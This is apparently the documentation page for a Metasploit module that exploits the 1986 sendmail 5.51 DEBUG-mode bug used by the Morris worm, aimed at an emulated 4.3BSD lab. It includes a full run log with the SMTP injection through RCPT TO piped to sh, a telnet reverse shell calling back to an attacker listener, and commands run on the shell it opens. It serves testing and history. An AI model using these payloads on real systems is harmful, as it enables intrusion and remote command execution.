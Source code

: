 ## Vulnerable Application

### Description

This module exploits `sendmail`'s well-known historical debug mode to
escape to a shell and execute commands in the SMTP `RCPT TO` command.

This vulnerability was exploited by the Morris worm in 1988-11-02.
Cliff Stoll reports on the worm in the epilogue of *The Cuckoo's Egg*.

### Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This targets `sendmail` version 5.51 from 1986-05-02.

## Options

### RPORT

Set this to the target port. The default is 25 for `sendmail`, but the
port may be forwarded when NAT (SLiRP) is used in SIMH.

### PAYLOAD

Set this to a Unix command payload. Currently, only `cmd/unix/reverse`
and `cmd/unix/generic` are supported.

## Scenarios

### `sendmail` 5.51 on 4.3BSD

```
msf5 > use exploit/unix/smtp/morris_sendmail_debug
msf5 exploit(unix/smtp/morris_sendmail_debug) > options

Module options (exploit/unix/smtp/morris_sendmail_debug):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   25               yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   @(#)version.c       5.51 (Berkeley) 5/2/86


msf5 exploit(unix/smtp/morris_sendmail_debug) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/smtp/morris_sendmail_debug) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(unix/smtp/morris_sendmail_debug) > run

[*] Started reverse TCP double handler on 192.168.56.1:4444
[*] 127.0.0.1:25 - Connecting to sendmail
[*] 127.0.0.1:25 - Enabling debug mode and sending exploit
[*] 127.0.0.1:25 - Expecting: /220.*Sendmail/
[*] 127.0.0.1:25 - Sending: DEBUG
[*] 127.0.0.1:25 - Expecting: /200 Debug set/
[*] 127.0.0.1:25 - Sending: MAIL FROM:<3V900gQTSR70m6QPRYJnf3eoUIe6>
[*] 127.0.0.1:25 - Expecting: /250.*Sender ok/
[*] 127.0.0.1:25 - Sending: RCPT TO:<"| sed '1,/^$/d' | sh; exit 0">
[*] 127.0.0.1:25 - Expecting: /250.*Recipient ok/
[*] 127.0.0.1:25 - Sending: DATA
[*] 127.0.0.1:25 - Expecting: /354 Enter mail.*itself/
[*] 127.0.0.1:25 - Sending:  PATH=/bin:/usr/bin:/usr/ucb:/etc
[*] 127.0.0.1:25 - Sending: export PATH
[*] 127.0.0.1:25 - Sending: sh -c '(sleep 3935|telnet 192.168.56.1 4444|while : ; do sh && break; done 2>&1|telnet 192.168.56.1 4444 >/dev/null 2>&1 &)'
[*] 127.0.0.1:25 - Sending: .
[*] 127.0.0.1:25 - Expecting: /250 Ok/
[*] 127.0.0.1:25 - Sending: QUIT
[*] 127.0.0.1:25 - Expecting: /221.*closing connection/
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo ISj759F8jEik4HAW;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sh: Connected: not found\r\nsh: Escape: not found\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.1:58037) at 2020-02-06 15:51:28 -0600
[!] 127.0.0.1:25 - Do NOT type `exit', or else you may lose further shells!
[!] 127.0.0.1:25 - Hit ^C to abort the session instead, please and thank you

whoami
daemon
cat /etc/motd
4.3 BSD UNIX #1: Fri Jun  6 19:55:29 PDT 1986

Would you like to play a game?
```
